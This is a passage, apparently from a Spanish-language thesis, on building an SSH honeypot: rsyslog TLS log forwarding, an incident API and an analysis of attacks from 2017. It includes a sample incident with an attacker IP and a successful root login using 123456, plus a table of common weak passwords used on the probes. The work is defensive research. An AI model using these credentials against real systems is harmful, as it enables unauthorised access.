\begin{minted}[fontsize=\footnotesize]{console}
    # Increase the amount of open files rsyslog is allowed, which includes open tcp sockets
    # This is important if there are many clients.
    # http://www.rsyslog.com/doc/rsconf1_maxopenfiles.html
    - $MaxOpenFiles 2048

    # make gtls driver the default
    - $DefaultNetstreamDriver gtls

    - $DefaultNetstreamDriverCAFile {{ rsyslog_rsyslog_tls_ca_path }}
    - $DefaultNetstreamDriverCertFile {{ rsyslog_rsyslog_tls_cert_path }}
    - $DefaultNetstreamDriverKeyFile {{ rsyslog_rsyslog_tls_key_path }}

    # Provides TCP syslog reception
    # for parameters see http://www.rsyslog.com/doc/imtcp.html
    - module(load="imtcp"
           MaxSessions="2000"
           StreamDriver.mode="1"
          StreamDriver.authmode="x509/name"
           PermittedPeer="*.{{ pot_domain }}")
    - input(type="imtcp" port="10514" name="tcp-tls")
         
\end{minted}
\captionof{listing}{Configuración de \emph{rsyslog} como servidor. \label{listing:rsyslog-server}}
\bigskip

En el lado del cliente, en las sondas como puede verse en el código \ref{listing:rsyslog-cliente}, se reenvian todos los logs
al recolector y sólo a través del canal cifrado TLS. Se configura además un fichero en disco como almacenamiento temporal
para evitar perdidas de alertas si hay problemas en la conexión de red.

\begin{minted}[fontsize=\footnotesize]{console}
    # make gtls driver the default
    - $DefaultNetstreamDriver gtls
    
    - $DefaultNetstreamDriverCAFile {{ rsyslog_rsyslog_tls_ca_path }}
    - $DefaultNetstreamDriverCertFile {{ rsyslog_rsyslog_tls_cert_path }}
    - $DefaultNetstreamDriverKeyFile {{ rsyslog_rsyslog_tls_key_path }}
    - $ActionSendStreamDriverAuthMode x509/name
    - $ActionSendStreamDriverPermittedPeer {{rsyslog_rsyslog_collector_dns_name}}
    - $ActionSendStreamDriverMode 1 # run driver in TLS-only mode
    - $WorkDirectory /var/spool/rsyslog # default location for work (spool) files
    - $ActionQueueType LinkedList # use asynchronous processing
    - $ActionQueueFileName srvrfwd # set file name, also enables disk mode
    - $ActionResumeRetryCount -1 # infinite retries on insert failure
    - $ActionQueueSaveOnShutdown on # save in-memory data if rsyslog shuts down
    - "*.* @@{{ rsyslog_rsyslog_collector_host_name}}:10514"         
\end{minted}
\captionof{listing}{Configuración de \emph{rsyslog} como cliente. \label{listing:rsyslog-cliente}}
\bigskip

Con ambas configuraciones conseguimos que los \emph{logs} de las sondas acaben en el \emph{rsyslog} del servidor.
El siguiente paso será filtar los eventos por sonda en ficheros diferentes, de otra manera, tendremos todos los eventos
en un unico log agregado en \code{/var/log/syslog}.

Para discriminar los \emph{logs} por servidor, utilizamos una funcionalidad de \emph{rsyslog} que nos permite
segregar los eventos por fichero en base a algunos parametros, como puede verse en el codigo \ref{listing:rsyslog-split}.

\begin{minted}[fontsize=\footnotesize]{console}
     $ModLoad imuxsock.so
     $ModLoad imklog.so
     $ActionFileDefaultTemplate      RSYSLOG_TraditionalFileFormat
     $template DYNmessages,"/var/log/%HOSTNAME%/messages"
     $template DYNsecure,"/var/log/%HOSTNAME%/secure"
     $template DYNmaillog,"/var/log/%HOSTNAME%/maillog"
     $template DYNcron,"/var/log/%HOSTNAME%/cron"
     $template DYNspooler,"/var/log/%HOSTNAME%/spooler"
     $template DYNboot,"/var/log/%HOSTNAME%/boot.log"
     $template DYNfalco,"/var/log/%HOSTNAME%/falco.log"
     if $source != 'localhost' \
       and \
       $syslogseverity <= '6' \
       and ( \
         $syslogfacility-text != 'mail' \
         and \
         $syslogfacilitytext != 'authpriv' \
         and \
         $syslogfacility-text != 'cron' \
       ) \
       then    ?DYNmessages

     if \
          $source != 'localhost' \
          and \
          $syslogfacility-text == 'authpriv' \
       then    ?DYNsecure

     if \
          $source != 'localhost' \
          and \
          $syslogfacility-text == 'mail' \
       then    -?DYNmaillog

     if \
          $source != 'localhost' \
          and \
          $syslogfacility-text == 'cron' \
       then    ?DYNcron

     if \
          $source != 'localhost' \
          and \
          (\
            $syslogfacility-text == 'uucp' \
            or \
            $syslogfacility-text == 'news' \
          )\
          and \
          $syslogseverity-text == 'crit' \
       then    ?DYNspooler

     if \
          $source != 'localhost' \
          and \
          $syslogfacility-text == 'local7' \
       then    ?DYNboot

     if \
          $source != 'localhost' \
          and \
          $programname == 'falco' \
       then ?DYNfalco
\end{minted}
\captionof{listing}{Configuración de \emph{rsyslog} para segregar por fuente y servidor de origen. \label{listing:rsyslog-split}}
\bigskip

Con estas configuraciones conseguimos tener las alertas guardadas en disco en la ruta \code{/var/log/[SERVER\_NAME]/falco.log}, necesitamos
ahora de alguna manera enviar estas alertas a \emph{Elasticsearch} donde pueden ser correladas con los datos extraidos de las trazas.

\subsubsection{Envio de alertas a \emph{Elasticsearch}.}

Se necesita alguna aplicación que sea capaz de leer el fichero previamente mencionado que guarda \emph{rsyslog} y sea capaz de guardarlo
en \emph{Elasticsearch} lidiando con caidas de la base de datos, actualizaciones del fichero de \emph{log} y rotados.

Dicha aplicación no es especialmente compleja pero si sensible, afortunadamente \emph{Elastic}, la compañia que desarrolla principalmente
\emph{Elasticsearch} ya nos proporciona aplicaciones que realizan esta tarea:

\begin{itemize}
    \item[\emph{Filebeat}] Se encarga de comprobar periodicamente si un conjunto de ficheros de origen ha sido modificado, y si lo han sido
    es capaz de enviar las modificaciones a \emph{Logstash} o directamente a \emph{Elasticsearch} entre otras opciones (véase \cite{elastic-filebeat}). Implementa 
    \emph{back-pressure}, si \emph{Logstash} o la salida seleccionada no confirma la escritura de nuevos eventos bajará paulatinamente la velocidad de envío. 
    Al enviarlas vía \emph{rsylog}, se añaden cabeceras a las alertas, como necesitamos filtrar estas cabeceras para acceder a las alertas necesitamos \emph{Logstash} para 
    guardarlas en \emph{Elasticsearch}.
    \item[\emph{Logstash}] Se encarga de analizar el evento enviado por \emph{Filebeat}, eliminar sobrantes añadidos por syslog y realizar la escritura en
    \emph{Elasticsearch}.
\end{itemize}

\section{Arquitectura de la API de clientes}
\label{sec:arquitectura-api-clientes}

Con las sondas y el recolector funcionando, la siguiente tarea a realizar es poner en marcha la \emph{API} de clientes, 
la \emph{API} que se usará para extraer información de incidentes de manera correlada.

La API es sencilla y su contrato ya fue descrito en \ref{subsubsec:definicion-api}. En este caso, por falta de tiempo no se implementa
la función de \code{/feed} y sólo se oferta el protocolo SSH.

La API depende de \emph{Elasticsearch}, si \emph{Elasticsearch} no funciona la \emph{API} no puede obtener las alertas ni los datos de capturas y no funcionará. Para reducir el acoplamiento entre la base de datos y la API, habría que implementar una cache 
en la API y/o incluir una base de datos propia del servicio para seguir una arquitectura de microservicios. Ninguna de estas opciones se ha implementado en la versión actual.


La API esta abierta a Internet, y por lo tanto es susceptible a ataques del exterior ya sea de denegación del servicio o intentos de intrusión. 
Para mitigar el riesgo de intrusión sería conveniente aislar la API en un servidor propio, pero esto aumentaría el coste economico del proyecto, dado 
que la \emph{API} es sencilla e implementada en \emph{Go}, se asume el riesgo de intrusión.

El riesgo de denegación de servicio sigue presente, y la manera de mitigarlo es implementar politicas de contención de tráfico.


\subsection{Inclusión de un \emph{API Gateway} }

Aunque podriamos implementar politicas de \emph{rate-limiting} en la propia \emph{API}, se decide externalizar a un \emph{API gateway}, una API para APIs que nos ofrecen funciones genericas como
autenticación, control de trafico, cuotas, cacheo y otros. 

Utilizar un \emph{API Gateway} tambien nos permite separar nuestra \emph{API} en diversos servicios si necesitamos especializar alguna de las funciones
de la \emph{API}. Por ejemplo, externalizar la función de \code{/feed} de la \emph{API} a otro servicio. 

Se decide usar \emph{krakend} (\href{http://www.krakend.io/}{http://www.krakend.io/}) como \emph{API Gateway} por ser simple, \emph{Open Source} y útil para este proposito aunque se podria utilizar cualquier otra. En concreto, 
\emph{krakend} se encargará del \emph{rate-limit} y de la terminación \emph{SSL}. Para obtener los certificados hacemos uso de la iniciativa del Internet Security Research Group \emph{Let's Encrypt} que nos
ofrece certificados \emph{SSL} validados por una \emph{CA} publica de manera gratuita.

\subsection{diseño de la API}

la \emph{API} se implementa en \emph{Go} utilizando el \emph{framework Beego} al igual que la API de registro de sondas descrita en el apartado \ref{subsubsec:sinkers-registry-api-implementacion}, 
por las razones allí expuestas y para reaprovechar codigo entre ellas.

Por razones de tiempo, sólo se ha podido implementar el \emph{endpoint} de incidentes, se trata basicamente de crear un objeto
que relacione alertas recibidas con intentos de \emph{login} y actividades detectadas en la sonda si existen. El código \ref{listing:beekeeper-api-models-ssh-incident}, 
líneas 117 a 127, muestra como se construye dicho objeto combinando tres indices de \emph{Elasticsearch}, el indice de alertas con el de \emph{activities} y \emph{login-attempts}.
con información de la sonda utilizando la API de registro de sondas.

\subsection{Salida de la \emph{API}}

El código \ref{listing:api-incident-json} muestra un ejemplo del JSON que devuelve la API que representa un incidente. En la estructura se 
incluyen los siguientes campos:

\begin{itemize}
    \item[\code{started\_at}] Fecha de inicio del incidente.
    \item[\code{finished\_at}] Fecha de fin del incidente, a veces es imposible de determinar y se establece a la fecha nula (\code{0000-00-00T00:00:01Z}).
    \item[\code{ID}] ID del incidente.
    \item[\code{Activities}] Listado de actividades (ordenes lanzadas) detectadas en la sonda.
    \item[\code{Offenders}] Listado de atacantes que intentaron y/o consiguieron iniciar sesión en la sonda en la ventana de tiempo del incidente, se incluye además la IP de atacantes y geolocalización.
    \item[\code{Provider}] Proveedor donde esta instalada la sonda.
    \item[\code{Triggered}] Mensaje de la alerta que inicia el incidente.
\end{itemize}

Con esta información expuesta, los clientes pueden crear sus propias herramientas de visualización y respuesta a incidentes, es importante destacar que 
el incidente tiene un marco temporal y que se debe actuar teniendolo en cuenta. Por ejemplo, una determinada IP puede realizar una actividad maliciosa en un 
periodo de tiempo y ser legitima posteriormente (por ser parte de una \emph{botnet}, porque el servidor infectado ha sido destruido y la IP asignada a otro servidor, etc).

\begin{minted}[fontsize=\footnotesize]{json}    
{
    Activities: [
    {
    @timestamp: "2017-09-01T01:15:07.143824471Z",
    activity: "bash -c uname -a",
    containerid: "6d7e2680e0d3",
    pid: "20855",
    user: "root"
    }
    ],
    Country: "Germany",
    FinishedAt: "2017-09-01T01:24:40Z",
    ID: "1504228507000-Vultr",
    Offenders: [
    {
    @timestamp: "2017-09-01T01:24:40Z",
    containerid: "6d7e2680e0d3",
    country: "Czech Republic",
    ip: "91.195.103.215",
    location: {
    lat: 50.071201,
    lon: 14.2758
    },
    password: "123456 ",
    successful: true,
    user: "root "
    }
    ],
    Provider: "Vultr",
    StartedAt: "2017-09-01T01:15:07.143818446Z",
    Triggered: " Alert Shell spawned in a container other than entrypoint 
    (user=root ssh (id=6d7e2680e0d3) 
    ssh (id=6d7e2680e0d3) 
    shell=bash parent=sshd cmdline=bash -c uname -a)"
},
\end{minted}
\captionof{listing}{Ejemplo de incidente expuesto en la API \label{listing:api-incident-json}}
\bigskip


\section{Analisis de datos obtenidos a través de la \emph{honeypot}}

Esta sección demuestra el tipo de visualizaciones que se pueden obtener a través de la \emph{API} de clientes para obtener
patrones e inteligencia sobre atacantes. Todas las visualizaciones comprenden el periodo del 4 de Junio de 2017 al 2 de septiembre de
2017 (90 dias).

En la figura \ref{fig:data-alerts-by-day} podemos observar una gráfica de las alertas generadas. Se puede observar que hay un pico de 
alertas alrededor del 7 de julio que también se ve reflejado en la figura \ref{fig:data-attempts-per-provider} donde se muestran
los intentos de inicio de sesión por día y proveedor.
    Se puede apreciar en ambos que la actividad maliciosa es continua en el tiempo pero con intensidad variable. También podemos observar
en la figura \ref{fig:data-attempts-per-provider} que un proveedor es más atacado que otro, esto puede guardar relación con las diferencias
perimetrales del proveedor.

En la figura \ref{fig:data-table-by-country-unified} podemos ver una tabla con los paises que originan más ataques desde IPs diferentes (no se tiene en cuenta 
la repetición de ataques desde la misma IP) que puede observarse de una manera más visual en la figura \ref{fig:data-map-unified}. Como vemos los ataques son globales,
pese a que hay paises como China, Argentina o Rusia que generan más ataques que el resto.

Si nuestro servicio esta localizado en varios paises y no incluye a los tres mencionados una posible respuesta sería bloquear todo el trafico proveniente
de estos paises, lo que es una medida muy drastica pero efectiva. 

En la figura \ref{fig:data-pie-passwords} puede observarse los usuarios habitualmente utilizados (circulo interno) con Respecto
a las contraseñas mas utilizadas. Vemos que el usuario \code{root}, seguido de \emph{admin} es el más utilizado y que en contraseñas
\code{1234} y \code{password} son de las más utilizadas.

Podemos observar tambien en la figura \ref{fig:data-pie-passwords-successful}, las contraseñas y usuarios que tuvieron exito en las que podemos ver
como el usuario \code{root} predomina y las contraseñas \code{12345}, \code{123456} y \code{111111} son las más utilizadas.

Dicha distribución tiene sentido ya que nuestras sondas tienen sólo dos usuarios \code{jeremy} y \code{root}, y se utiliza una contraseña aleatoria 
de la siguiente lista:

\begin{table}[h]
    \centering
    \begin{tabular}[!h]{|l|}
        \hline
        
        \thead{Contraseñas de las sondas} \\
        \hline
        root \\
        \hline
        123456 \\
        \hline
        password \\
        \hline
        12345678 \\
        \hline
        123456789 \\
        \hline
        12345 \\
        \hline
        1234 \\
        \hline
        111111 \\
        \hline
        1234567 \\
        \hline
        123123 \\
        \hline
        abc123 \\
        \hline
        696969 \\
        \hline
        shadow \\
        \hline
        master \\
        \hline
        666666 \\
        \hline
        1234567890 \\
        \hline
        654321 \\
        \hline
        7777777 \\
        \hline
        000000 \\
        \hline
    \end{tabular}
    \caption{\label{tab:sondas-passwords}Contraseñas de las sondas.}
    \end{table}

Durante la fase inicial, se probo a crear sondas que permitian iniciar sesión SSH sin contraseña. 
Pero al hacerlo se comprobo que:

\begin{itemize}
    \item La mayoria de atacantes son scrips automatizados, si no se les pregunta por contraseña asumen que es una \emph{honeypot} y no realizan ninguna actividad.
    \item Perdemos la información del login, puesto que no vemos que combinaciones se han probado para iniciar sesión ni cuales son las más exitosas.
\end{itemize}

Por estas razones se decide utilizar el listado expuesto en el cuadro \ref{tab:sondas-passwords}, extraido de un repositorio que incluye las contraseñas
más utilizadas según analisis de volcado de contraseñas de sitios web conocidos (\href{https://github.com/danielmiessler/SecLists.git}{https://github.com/danielmiessler/SecLists.git}).

De estos diagramas podemos extraer que si no permitimos que el usuario \emph{root} inicie sesión, eliminamos de un plumazo un porcentaje importante de ataques.

Lamentablamente lo más interesante que sería analizar los ficheros utilizados dentro de la \emph{honeypot} no ha sido implementado por falta de tiempo. Es una tarea
que es factible pero no facil y que pese a todo podemos implementar usando la \emph{API}, extrayendo las \emph{urls} de descarga y analizando el fichero descargado en plataformas como
\emph{VirusTotal}.

Lo interesante de este enfoque seria poder ofertar datos estadisticos de los tipos de \emph{malware} que observamos en la \emph{honeypot} y ser capaz de determinar si encontramos un malware por
su actividad que no sea reconocido en plataformas de analisis como \emph{VirusTotal}.

Durante el tiempo que el sistema lleva funcionando, se ha observado que la \emph{honeypot} ha sido infectada para formar parte de una \emph{botnet Mirai} (véase \cite{wiki-mirai})
o ser parte de una \emph{botnet} que realiza ataques DDoS a la plataforma de Sony Playstation.

Es ahi donde reside el potencial más interesante de la \emph{honeypot}, pese a que la información que ya se extra es valiosa por si misma.

\begin{sidewaysfigure}[h]
    \centering
      
\includegraphics[scale=0.3]{images/ElasticAlertsByDay}
    \caption{Alertas generadas por las sondas en el periodo del 4 de Junio de 2017 al 2 de septiembre de 2017.}
    \label{fig:data-alerts-by-day}
  \end{sidewaysfigure}

  \begin{sidewaysfigure}[h]
    \centering
      
\includegraphics[scale=0.3]{images/ElasticAttemptsPerProvider}
    \caption{Intentos de \emph{login} en el periodo del 4 de Junio de 2017 al 2 de septiembre de 2017 por proveedor.}
    \label{fig:data-attempts-per-provider}
  \end{sidewaysfigure}

  \begin{sidewaysfigure}[h]
    \centering
      
\includegraphics[scale=0.3]{images/ElasticMapUnified}
    \caption{Mapa que incluye los intentos de inicio desde la misma IP en el periodo del 4 de Junio de 2017 al 2 de septiembre de 2017}
    \label{fig:data-map-unified}
  \end{sidewaysfigure}

  \begin{sidewaysfigure}[h]
    \centering
      
\includegraphics[scale=0.3]{images/ElasticTableByCountryUnified}
    \caption{Tabla resumen de paises que atacan más a las sondas en el periodo del 4 de Junio de 2017 al 2 de septiembre de 2017}
    \label{fig:data-table-by-country-unified}
  \end{sidewaysfigure}

  \begin{sidewaysfigure}[h]
    \centering
